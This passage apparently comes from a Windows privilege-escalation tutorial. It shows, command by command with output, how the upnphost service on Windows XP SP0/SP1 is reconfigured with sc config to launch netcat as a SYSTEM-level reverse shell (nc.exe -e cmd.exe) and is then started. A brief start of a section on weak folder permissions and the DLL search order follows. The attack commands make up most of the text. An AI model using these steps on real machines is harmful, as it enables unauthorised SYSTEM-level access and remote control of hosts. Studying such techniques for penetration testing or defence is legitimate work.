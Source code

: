 This issue was later resolved with the introduction of XP SP2, however on SP0&SP1 it can be used as a universal local privilege escalation vulnerability. By reconfiguring the service we can let it run any binary of our choosing with SYSTEM level privileges.

Let's have a look how this is done in practise. In this case the service will execute netcat and open a reverse shell with SYSTEM level privileges. Other options are certainly possible.

```
C:\> sc qc upnphost

[SC] GetServiceConfig SUCCESS

SERVICE_NAME: upnphost
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\WINDOWS\System32\svchost.exe -k LocalService
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Universal Plug and Play Device Host
        DEPENDENCIES       : SSDPSRV
        SERVICE_START_NAME : NT AUTHORITY\LocalService
		
C:\> sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
[SC] ChangeServiceConfig SUCCESS

C:\> sc config upnphost obj= ".\LocalSystem" password= ""
[SC] ChangeServiceConfig SUCCESS

C:\> sc qc upnphost

[SC] GetServiceConfig SUCCESS

SERVICE_NAME: upnphost
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Universal Plug and Play Device Host
        DEPENDENCIES       : SSDPSRV
        SERVICE_START_NAME : LocalSystem
		
C:\> net start upnphost
```

Elevating privileges by exploiting weak folder permissions


DLL的加载顺序：
```
You can see the DLL search order on 32-bit systems below:
1 - The directory from which the application loaded
2 - 32-bit System directory (C:\Windows\System32)
3 - 16-bit System directory (C:\Windows\System)
4 - Windows directory (C:\Windows)
5 - The current working directory (CWD)
6 - Directories in the PATH environment variable (system then user)
```
